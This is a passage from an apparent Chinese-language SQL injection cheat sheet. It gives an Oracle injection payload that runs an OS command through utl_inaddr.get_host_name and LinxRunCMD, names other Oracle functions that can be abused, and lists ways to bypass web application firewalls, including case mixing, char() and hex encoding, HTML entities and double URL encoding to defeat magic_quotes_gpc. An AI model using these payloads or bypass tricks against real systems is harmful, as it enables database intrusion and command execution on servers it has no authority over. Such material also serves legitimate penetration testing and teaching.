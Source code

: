 ```txt
|| utl_inaddr.get_host_name((select LinxRunCMD('cmd /c dir d:')))--
```

### dbms_xmlquery.newcontext()

### DBMS_JAVA_TEST.FUNCALL()

### 参考

```txt
https://www.t00ls.net/viewthread.php?tid=45663&highlight=Oracle%E6%B3%A8%E5%85%A5
```

# 逃逸waf注入技术

### 简单WAF绕过技术

#### 常见绕过技术

```txt
技术分类：
a)大小写混合

b)替换关键字

c)使用编码
utf-7的绕过，还有utf-16、utf-32的绕过
d)使用注释

e)等价函数与命令

f)特殊符号

g)HTTP参数控制

h)缓冲区溢出

i)整合绕过
```

#### 常见符号绕过

```txt
表名列名等单/双引号过滤：
1.使用char()函数绕过：
concat(char(99),char(116),char(102),char(52))

2.使用十六进制绕过：
比如：ctf =十六进制转换=> 0x630x740x66

3.html实体编码：
&#39

4.双url编码：
%2527
这里主要是因为绕过magic_quotes_gpc过滤，因为%25解码为%,结合后面的27也就是%27也就是'，所以成功绕过过滤。
```
